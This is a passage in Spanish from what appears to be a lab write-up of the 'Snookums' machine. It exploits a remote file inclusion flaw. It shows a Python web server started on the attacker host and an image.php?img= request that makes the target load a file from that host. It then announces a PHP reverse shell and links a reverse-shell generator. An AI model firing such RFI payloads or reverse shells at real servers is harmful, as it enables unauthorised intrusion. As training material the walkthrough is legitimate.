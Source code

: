 - Investigamos un poquito más para ver si podemos acceder a alguna **CLAVE PRIVADA** para acceder por **SSH** pero no tenemos suerte. Vamos a probar con el **RFI**!

- Levantamos un servidor web con **PYTHON** en nuestra máquina atacante e intentamos lanzar una petición a través del **RFI** intentando cagar un archivo inexistente **TEST.TXT** solo para comprobar si tenemos alcance y podemos, posteriormente, intentar cargar una **WEBSHELL** o lanzarnos directamente una **REVERSE SHELL** para lograr el **RCE**:

```bash
python3 -m http.server 80
```

![image.png](assets/img/post-img/Snookums/image%208.png)

- Lanzamos la petición y al cabo de unos segundos la recibimos en el servidor web:

```bash
http://192.168.169.58/image.php?img=http://192.168.45.223/test.txt
```

![image.png](assets/img/post-img/Snookums/image%209.png)

![image.png](assets/img/post-img/Snookums/image%2010.png)

- Ahora que sabemos que tenemos conectividad, vamos a intentar saltarnos el paso de la **WEBSHELL** y, sabiendo que el servidor corre **PHP**, vamos a generarnos una **REVERSE SHELL** en **PHP** para ver si podemos conseguir una sesión en la máquina víctima:

https://www.revshells.com/
